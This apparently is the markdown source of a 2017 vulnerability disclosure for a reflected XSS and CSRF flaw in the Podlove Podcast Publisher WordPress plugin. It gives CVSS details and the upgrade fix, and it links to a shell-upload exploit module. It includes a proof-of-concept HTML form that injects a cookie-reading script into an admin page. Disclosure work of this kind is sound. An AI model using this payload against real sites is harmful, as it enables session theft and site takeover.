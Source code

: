 ```yaml
---
layout: post
title: Podlove Podcast Publisher <= 2.3.15 Reflected XSS
date: 2017-01-21
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - podlove podcast publisher
  - reflected xss
excerpt: Due to a lack of CSRF mitigation and entity encoding in `lib/episode_asset_list_table.php`, it is possible to execute scripts in the context of an admin user by including a script in the `page` field during a form post.
---
```

## Homepage
[https://wordpress.org/plugins/podlove-podcasting-plugin-for-wordpress/](https://wordpress.org/plugins/podlove-podcasting-plugin-for-wordpress/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in `lib/episode_asset_list_table.php`, it is possible to execute scripts in the context of an admin user by including a script in the `page` field during a form post.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
2.3.15 and below

## Solution
Upgrade to the latest version of the plugin

## WordPress Exploit Framework Module
[exploit/xss/reflected/podlove\_podcast\_publisher\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/reflected/podlove_podcast_publisher_reflected_xss_shell_upload.rb)

## Proof of Concept
```xml
<form method="POST" action="[target]/wp-admin/admin.php?page=podlove_episode_assets_settings_handle">
  <input type="text" name="page" value="&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;&lt;a href=&quot;">
  <input type="submit">
</form>
```

## WPVDB-ID
[8697](https://wpvulndb.com/vulnerabilities/8697)
